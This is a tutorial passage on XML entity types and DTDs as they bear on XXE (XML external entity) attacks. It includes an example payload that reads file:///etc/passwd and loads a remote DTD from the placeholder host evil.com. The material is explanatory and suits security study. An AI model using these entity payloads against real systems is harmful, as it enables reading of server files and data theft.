 ***XML standalone*** in `<?xml version="1.0" standalone="yes"?>` is a signal to the XML processor that the DTD is only for validation (usage of external entites will be forbidden). <br>
Default value is `no`, that is perfectly well for attacker, although some parsers ignore this option.

***XML entities types***:

- **General entities** - can be used in XML content like `&name;`

    `<!ENTITY name "Hello World">`

- **Parameter entities** - can be used inside doctype definition like `%name;` (parameter entities can insert new entities) and inside entities values like `%name;`.
    
    `<!ENTITY % name "Hello World">`

    `<!ENTITY % name "Hello %myEntity;">`

- **External entities** - entities with query to external (not declared in current XML document) resource (can be used both: general entities and parameter entities)

    `<!ENTITY name SYSTEM "URI/URL">`

    `<!ENTITY name PUBLIC "any_text" "URI/URL">`

    External entities can be used for doctypes too:

    `<!DOCTYPE name SYSTEM "address.dtd" [...]>`

    `<!DOCTYPE name PUBLIC "any text" "http://evil.com/evil.dtd">`

<div class="spoiler"><div class="spoiler-title">
    <i>XML example with entities</i>
</div><div class="spoiler-text">

{% highlight xml %}
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE content [
    <!ENTITY ent1 SYSTEM "file:///etc/passwd">
    <!ENTITY % ent2 PUBLIC "any_text" "http://evil.com/evil.dtd">
    %ent2;
    <!ENTITY % ent3 PUBLIC "any_text" '&lt;!ENTITY ent4 SYSTEM "file:///etc/passwd"&gt;'>
    %ent3;
]>
<root>&ent1;&ent4;</root>
{% endhighlight %}

</div>
</div>
<br>

XSD - XML Schema Definition Language
: XML Schema is used to define XML structure. (It is usually a separate doc.xsd)

    XSD does not depend on DTD technology, however can use it.

XSLT - eXtensible Stylesheet Language Transformations
: XSLT is used to convert one XML document to other.

    XSLT does not depend on DTD technology, however can use it.
